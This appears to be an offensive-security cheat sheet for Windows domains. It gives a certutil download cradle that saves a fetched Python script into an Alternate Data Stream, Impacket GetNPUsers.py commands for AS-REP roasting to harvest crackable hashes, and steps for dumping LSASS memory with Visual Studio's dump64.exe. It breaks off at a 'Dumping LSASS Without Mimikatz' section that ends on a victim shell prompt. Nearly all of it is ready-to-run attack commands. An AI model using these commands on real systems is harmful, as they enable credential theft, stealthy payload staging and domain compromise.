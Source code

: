 ## Certutil Download Cradle:

Download and save a Python file to an Alternate Data Stream (ADS).

```
certutil.exe -urlcache -split -f https://github.com/RoseSecurity/APOLOGEE/blob/main/siemens_field_panel_scanner.py c:\temp:apologee.py
```

## Kerberoasting with Impacket:

ASREPRoast

With Impacket example GetNPUsers.py:

```
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
## Dumping LSASS With Visual Studio:

Dump64: Memory dump tool that comes with Microsoft Visual Studio

Path: C:\Program Files (x86)\Microsoft Visual Studio\Installer\Feedback\dump64.exe

Enumerate for Visual Studio install:

```
C:\> code -v
```

Find LSASS PID:

```
tasklist /fi "Imagename eq lsass.exe"
```

Uuse Dump64 to dump LSASS:

```
C:\> dump64.exe <pid> out.dmp
```

## Dumping LSASS Without Mimikatz:

To get LSASS process ID via CMD:

```
PS C:\Users\test> tasklist | findstr lsass
lsass.exe                      580 Services                   0     51,752 K
```


[VICTIM]: PS C:\Users\Victim\Documents>
